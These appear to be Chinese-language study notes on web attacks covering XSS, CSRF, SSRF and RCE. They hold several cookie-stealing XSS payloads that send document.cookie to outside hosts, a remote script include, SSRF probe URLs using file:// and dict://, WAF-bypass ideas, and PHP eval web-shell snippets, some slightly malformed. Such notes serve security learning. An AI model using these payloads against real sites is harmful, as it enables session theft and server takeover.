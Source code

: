 XSS跨站脚本Cross-Site Scripting
<script>document.write('<img src="http://192.168.5.52:8888?x='+document.cookie +'" width=0 height=0 >')</script >
<script>alert(document.cookie)</script>
<script>fetch('http://192.168.5.52:8888?x=' + document.cookie);</script>

CSRF与XSS的区别：CSRF是借用户的权限完成攻击，攻击者并没有拿到用户的权限，而XSS是直接盗取到了用户的权限，然后实施破坏。
XSS只能获取到有漏洞网站的受害者cookie，仅限于此网站
CSRF则可以诱导受害者在多个网站操作

<script>document.location = 'http://92.168.99.131/Pikachu-master/pkxss/xcookie/cookie.php?cookie=' + document.cookie;</script>

<script src='http://39.96.44.170/hack.js'></script>

XSS工具：beef、github_XSS-payload、XSStrike

HttpOnly
如果您在cookie中设置了HttpOnly属性，那么通过js脚本将无法读取到cookiet信息，这样能有效的防止SS攻击

进入后台两种方式：
1.获取coookie进入后台
2.直接账号密码登录

&#x4e2d;&#x56fd;中国
&#是html的转义序列，不是编码，payload用这个转义也是一种绕过方法

#XSS常规WAF绕过思路
标签语法替换
特殊符号干扰
提交方式更改
垃圾数据溢出
加密解密算法
结合其他漏洞绕过

CSRF（跨站请求伪造）

SSRF（服务器端请求伪造）
伪协议、各个协议调用探针：http,file,dict,ftp,gophers等

学习链接https://blog.csdn.net/unexpectedthing/article/details/121276653

漏洞攻击：端口扫描，指纹识别，漏洞利用，内网探针等
http://192.168.64.144/phpmyadmin/
file:///D:/www.txt
dict://192.168.64.144:3306/info
ftp://192.168.64.144:21

RCE指两个漏洞，代码及命令执行漏洞

**<?php**
**eval($REQUEST[x])**
**?>**
**x是代码执行**
**<?php**
**eval(echo `$REQUEST[x]`)**
**?>**
**x是命令执行，仅限于Linux系统，Windows不支持反引号``**
